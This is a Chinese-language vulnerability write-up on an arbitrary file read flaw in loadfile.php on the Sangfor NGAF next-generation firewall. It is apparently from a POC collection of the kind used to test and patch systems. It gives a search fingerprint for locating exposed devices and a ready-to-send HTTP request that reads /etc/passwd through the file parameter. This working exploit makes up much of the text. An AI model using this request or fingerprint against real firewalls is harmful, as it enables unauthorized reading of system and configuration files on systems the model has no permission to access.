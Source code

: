 # 深信服 NGAF下一代防火墙 loadfile.php 任意文件读取漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 loadfile.php 处存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态

## 漏洞影响

<a-checkbox checked>深信服 NGAF下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Redirect.php?url=LogInOut.php"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697639705479-39cc829b-1edc-4102-9b01-1f5d6c9bac5a.png)

验证POC

```php
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1697682969308-906d84fc-40b5-4f68-8fe5-d865528e47b0.png)